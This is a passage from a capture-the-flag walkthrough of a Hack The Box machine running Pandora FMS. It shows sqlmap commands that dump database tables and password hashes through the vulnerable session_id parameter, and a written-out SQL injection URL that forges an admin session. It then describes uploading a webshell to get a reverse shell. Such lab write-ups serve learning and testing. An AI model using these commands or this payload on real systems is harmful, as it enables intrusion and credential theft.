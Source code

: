 We can see that the page, uses some software called ```Pandora FMS.``` I looked it up on the internet and luckily, I found that it had CVE's([here](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/)) available.
As shown in the article, the ```chart_generator.php``` file's session_id parameter, is vulnerable. Now I will run a SQLi with proxychain against the chart generator file. But file, I will have to cofigure ```/etc/proxychains4.conf``` file so as to enable proxy and our dynamic socks5 tunnel.

![](https://i.imgur.com/7QqrEA5.png)

Then use the below command to run the sqli attack.

```
┌─[r00t@parrot]─[~/HTB/pandora]
└──╼ $sudo proxychains sqlmap --url="http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
```

![](https://i.imgur.com/dUWthw8.png)

The table that is really important, is ```tpassword_history```. Here we can find the hashes for matt and daniel. Looking at the harshes, they are md5.
```
┌─[r00t@parrot]─[~/HTB/pandora]
└──╼ $proxychains sqlmap --url="http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=''" -Ttpassword_history --dump
```

![](https://i.imgur.com/f2PFU73.png)

I also did a futher attack on the ```tsession_php``` table to get the php session ids stored.

I just added the id to the url, visiting it, we get access granted and a blank white page. Going back to the fms login page, I was automatically logged in as ```matt``` with admin privilledges.

```
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20x
```
Accessed as matt


![](https://i.imgur.com/C40eqRr.png)

Now we have to get a way to exploit a reverse shell.

![](https://i.imgur.com/Ji5s8yp.gif)

### Getting Reverse shell
Looking at the Pandora FMS [CVE-2020-5544](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5844) we can see that all the exploits require file upload, in order to get RCE. 
I interacted with the tool and lucky, I found a file manager section that allows a file upload. I just got a webshell file online and uploaded it.

![](https://i.imgur.com/6LNEqtK.png)
